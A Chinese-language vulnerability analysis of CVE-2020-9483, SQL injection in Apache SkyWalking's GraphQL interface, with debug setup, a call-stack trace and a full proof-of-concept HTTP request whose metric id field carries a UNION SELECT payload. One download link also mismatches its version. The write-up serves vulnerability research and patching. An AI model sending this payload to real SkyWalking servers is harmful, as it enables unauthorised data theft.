






Apache SkyWalking 7.0.0 graphql SQL注入漏洞 CVE-2020-9483¶
漏洞描述¶
腾讯安全威胁情报中心监测到Apache SkyWalking发布更新，修复了一个SQL注入漏洞（编号：CVE-2020-9483）。远程攻击者可通过Apache SkyWalking默认开放的未授权GraphQL接口构造恶意请求包进行注入攻击，成功利用此漏洞可造成敏感数据泄漏。该漏洞等级为高危，腾讯安全专家建议相关企业尽快修复。
环境搭建¶
https://archive.apache.org/dist/skywalking/6.5.0/apache-skywalking-apm-6.5.0.tar.gz
https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-6.5.0-src.tgz
漏洞影响¶
Apache SkyWalking 6.0.0~6.6.0
Apache SkyWalking 7.0.0
漏洞复现¶
下载编译好的源码后，进入bin目录，修改 oapService.sh 通过IDEA进行远程调试
for i in "$OAP_HOME"/oap-libs/*.jar
do
CLASSPATH="$i:$CLASSPATH"
done
OAP_OPTIONS=" -Doap.logDir=${OAP_LOG_DIR}"
eval exec "\"$_RUNJAVA\" ${JAVA_OPTS} ${OAP_OPTIONS} -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -classpath $CLASSPATH org.apache.skywalking.oap.server.starter.OAPServerStartUp \
2>${OAP_LOG_DIR}/oap.log 1> /dev/null &"
if [ $? -eq 0 ]; then
sleep 1
echo "SkyWalking OAP started successfully!"
else
echo "SkyWalking OAP started failure!"
exit 1
配置IDEA JVM Debug

查看CVE的修复commit寻找修复的地方

打下断点并发送Payload请求包
POST /graphql HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: max-age=0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 416
{
"query": "query queryData($duration: Duration!) {globalP99: getLinearIntValues(metric: {name: \"all_p99\", id: \"') UNION ALL SELECT NULL,CONCAT('~', H2VERSION(), '~')--\" }, duration: $duration) { values { value } }}",
"variables": {
"duration": {
"end": "2020-08-07 1418",
"start": "2020-08-07 1417",
"step": "MINUTE"
}
}
}

在 org.apache.skywalking.oap.query.graphql.resolver 中我们可以看到参数 metrics.getId() 没有过滤就直接传入 getLinearIntValues

跟随来到 org.apache.skywalking.oap.server.core.query.MetricQueryService.getLinearIntValues(MetricQueryService.java:96)

来到 org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao.H2MetricsQueryDAO.getLinearIntValues(H2MetricsQueryDAO.java:117)，这里就将拼接的语句带入数据库进行查询，造成SQL注入

调用栈如下
getLinearIntValues:117, H2MetricsQueryDAO (org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao)
getLinearIntValues:96, MetricQueryService (org.apache.skywalking.oap.server.core.query)
getLinearIntValues:60, MetricQuery (org.apache.skywalking.oap.query.graphql.resolver)
execute:87, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:81, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:54, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:101, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:105, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)